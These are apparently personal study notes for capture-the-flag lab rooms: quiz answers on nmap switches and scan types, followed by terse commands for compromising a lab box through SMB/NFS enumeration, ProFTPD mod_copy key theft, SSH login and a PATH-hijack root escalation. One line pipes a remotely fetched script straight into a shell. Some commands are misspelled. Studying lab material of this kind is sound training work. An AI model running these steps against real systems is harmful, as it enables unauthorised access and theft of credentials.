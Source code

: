 # nmap

## Task 1  Deploy
- Deploy the attached VM : *sumbit*

## Task 2  Introduction
- What networking constructs are used to direct traffic to the right application on a server? *Ports*
- How many of these are available on any network-enabled computer? *65535*
- [Research] How many of these are considered "well-known"? (These are the "standard" numbers mentioned in the task)? *1024*

## Task 3  Nmap Switches
- What is the first switch listed in the help menu for a 'Syn Scan' (more on this later!)? *-sS*
- Which switch would you use for a "UDP scan"? *-sU*
- If you wanted to detect which operating system the target is running on, which switch would you use? *-O*
- Nmap provides a switch to detect the version of the services running on the target. What is this switch? *-sV*
- The default output provided by nmap often does not provide enough information for a pentester. How would you increase the verbosity? *-v*
- Verbosity level one is good, but verbosity level two is better! How would you set the verbosity level to two? *-vv*
- What switch would you use to save the nmap results in three major formats? *-oA*
- What switch would you use to save the nmap results in a "normal" format? *-oN*
- A very useful output format: how would you save results in a "grepable" format? *-oG*
- How would you activate this setting? *-A*
- How would you set the timing template to level 5? *-T5*
- How would you tell nmap to only scan port 80? *-p 80*
- How would you tell nmap to scan ports 1000-1500? *-p 1000-1500*
- How would you tell nmap to scan all ports? *-p-*
- How would you activate a script from the nmap scripting library (lots more on this later!)? *--script*
- How would you activate all of the scripts in the "vuln" category? *--script=vuln*

## Task 4  Scan Types Overview
- Read the Scan Types Introduction.? *submit*

## Task 5  Scan Types TCP Connect Scans
- Which RFC defines the appropriate behaviour for the TCP protocol? *RFC 9293*
- If a port is closed, which flag should the server send back to indicate this? *RST*

## Task 6  Scan Types SYN Scans
- There are two other names for a SYN scan, what are they? *Half-Open, Stealth*
- Can Nmap use a SYN scan without Sudo permissions (Y/N)? *N*

## Task 7  Scan Types UDP Scans
- If a UDP port doesn't respond to an Nmap scan, what will it be marked as? *open|filtered*
- When a UDP port is closed, by convention the target should send back a "port unreachable" message. Which protocol would it use to do so? *ICMP*

## Task 8  Scan Types NULL, FIN and Xmas
- Which of the three shown scan types uses the URG flag? *xmas*
- Why are NULL, FIN and Xmas scans generally used? *Firewall Evasion*
- Which common OS may respond to a NULL, FIN or Xmas scan with a RST for every port? *Microsoft Windows*

## Task 9  Scan Types ICMP Network Scanning
- How would you perform a ping sweep on the 172.16.x.x network (Netmask: 255.255.0.0) using Nmap? (CIDR notation)? *nmap -sn 172.16.0.0/16*

## Task 10  NSE Scripts Overview
- What language are NSE scripts written in? *Lua*
- Which category of scripts would be a very bad idea to run in a production environment? *intrusive*

## Task 11  NSE Scripts Working with the NSE
## Task 12  NSE Scripts Searching for Scripts
## Task 13  Firewall Evasion
## Task 14  Practical
## Task 15  Conclusion







## samba
```
nmap -vvv
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.166.158

smbclient //10.10.10.10/anonymous
smbget -R smb://10.10.166.158/anonymous

nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.166.158
searsearchsploit proftpd 1.3.5

nc 10.10.166.158 21 / netcat => network cat
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

mkdir /mnt/kenobiNFS
sudo mount 10.10.166.158:/var /mnt/kenobi
ls -al /mnt/kenobi

cp /mnt/kenobi/tmp/id_rsa id_rsa
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.166.158

d0b0f3f53b6caa532a83915e19224899
```

```
find / -perm -u=s -type f 2>/dev/null
usr/bin/menu

sudo python3 -m http-server 80
wget http://ur_ip/linpeas.sh | sh
curl ur_ip/linpeas.sh | sh

if u got /usr/bin/menu
u can use menu
- menu

- strings /usr/bin/menu
env => environment variable

echo bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH

menu: 1
# (user root now)
```